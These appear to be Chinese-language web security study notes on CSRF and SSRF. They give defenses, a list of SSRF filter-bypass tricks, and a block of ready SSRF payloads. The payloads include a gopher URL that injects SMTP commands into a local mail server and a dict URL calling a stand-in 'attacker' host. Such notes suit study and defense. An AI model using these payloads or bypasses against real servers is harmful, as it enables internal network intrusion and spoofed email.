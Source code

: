 [toc]

# 1.csrf,ssrf

Csrf
黑客构造html表单，用户访问后会用自己的浏览器提交表单，造成利用
如何防御：加token，判断header

Ssrf
大都是因为服务端提供了从其他服务器获取数据功能并且没有对目标地址做过滤和限制才造成的
修复方法
可以采取白名单,限制内网Ip。对返回内容进行识别禁用一些不必要的协议统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态过滤函数，file_get_contents fsockopen()  curl_exec()

https://www.freebuf.com/articles/web/260806.html

ssrf绕过

1.  **[::]**

2.  利用@

3.  短地址

4.  句号

5.  进制转换

6.  特殊域名：xip.io

7.  其他协议

    ```cpp
    Dict://
    dict://<user-auth>@<host>:<port>/d:<word>
    ssrf.php?url=dict://attacker:11111/
    SFTP://
    ssrf.php?url=sftp://example.com:11111/
    TFTP://
    ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET
    LDAP://
    ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
    Gopher://
    ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
    ```

一个是客户端请求伪造，一个是服务端请求伪造



# 2.SQL
